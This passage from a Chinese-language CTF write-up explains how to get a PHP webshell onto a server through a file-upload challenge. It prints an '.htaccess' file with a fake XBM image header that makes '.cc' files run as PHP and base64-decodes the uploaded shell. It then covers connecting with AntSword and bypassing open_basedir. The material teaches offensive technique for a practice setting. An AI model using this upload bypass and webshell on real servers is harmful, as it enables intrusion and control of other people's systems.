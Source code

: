  `hacker.cc`内容：

![image-20230516135259876](https://s2.loli.net/2023/05/16/VjeOyFmDJAdgbxo.png)

后面添加`12`是因为：

![image-20230516135403006](https://s2.loli.net/2023/05/16/yjTPVLKcflh4Ads.png)

我们需要将字符凑为4的整数倍

![image-20230516135224270](https://s2.loli.net/2023/05/16/HZmFyClzRrDdtEX.png)

base64的值是一句话木马



上传：

![image-20230516135453109](https://s2.loli.net/2023/05/16/Dhy481RgZbNuOw9.png)

获得文件路径



`.htaccess`内容：

```
#define width 1337
#define height 1337
AddType application/x-httpd-php .cc
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_f9e1016a5cec370aae6a18d438dabfa5/hacker.cc"
```

（将cc结尾文件解析为php执行，然后使用伪协议base64解码，包含进cc文件中）

上传：

![image-20230516135627978](https://s2.loli.net/2023/05/16/ZkznGgMlJqyKPme.png)

然后我们直接蚁剑连接，但是由于 `open_basedir `、`disable_function`没有权限，所以无法读flag

所以我们需要**绕过 open_basedir**

 

法一：使用蚁剑插件：

![image-20230516140125308](https://s2.loli.net/2023/05/16/mra5JE2I4jRQxqS.png)



法二：

这里我们使用手工绕过

[open_basedir绕过](https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/)

[bypass open_basedir的新方法](https://xz.aliyun.com/t/4720)

[从PHP底层看open_basedir bypass](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#%E6%80%BB%E7%BB%93)
